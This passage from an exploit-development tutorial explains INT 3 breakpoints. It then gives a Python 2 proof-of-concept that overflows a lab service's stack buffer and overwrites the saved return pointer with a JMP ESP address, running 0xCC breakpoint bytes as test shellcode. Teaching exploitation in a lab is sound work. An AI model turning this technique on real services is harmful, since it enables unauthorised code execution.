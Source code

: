 `"INT 3"` is an instruction that generates a software interrupt, causing an
attached debugger to pause execution of the process as though hitting a
breakpoint that had been set by the user.

\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: "INT 3" is actually how debuggers implement software
    breakpoints. The debugger quietly replaces a single byte of the original
    program code at the location of the breakpoint with "INT 3"
    ({\textbackslash}xCC) and then when the breakpoint gets hit, it swaps the
    replaced byte out with what it originally was. The more you know!
  }
}

Let's use some specific number of consecutive `"INT 3"` instructions as our
bytecode to be executed, so that if Immunity tells us the program is trying to
execute as many of them as we've specified we know we've succeeded. I'm going
to use four of them.

Our exploit evolves to become:

```{.python .numberLines}
#!/usr/bin/env python2
import socket
import struct

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

ptr_jmp_esp = 0x080414C3

buf = ""
buf += "A"*(offset_srp - len(buf))      # padding
buf += struct.pack("<I", ptr_jmp_esp)   # SRP overwrite
buf += "\xCC\xCC\xCC\xCC"               # ESP points here
buf += "D"*(buf_totlen - len(buf))      # trailing padding
buf += "\n"

s.send(buf)
```

\newpage

Restarting the process within Immunity, and firing this off, we see that we've
successfully hijacked the usual program flow and it's trying to execute the
data we sent it as code! We see our sequence of `\xCC` bytes on the stack as
well as in the disassembly, and the status bar tells us the program hit an
`"INT 3 command"`. Note that the disassembly view will show you one less `"INT
3"` than you sent it, since Immunity considers one of them as having already
been executed and scrolls right past it. If you scroll up to try to see the
already-executed `"INT 3"` then you'll see an `"\xCC"` but Immunity might not
seem to disassemble it as an actual `"INT 3"`. Disassembling backwards is hard
because x86 instructions are variable-length.
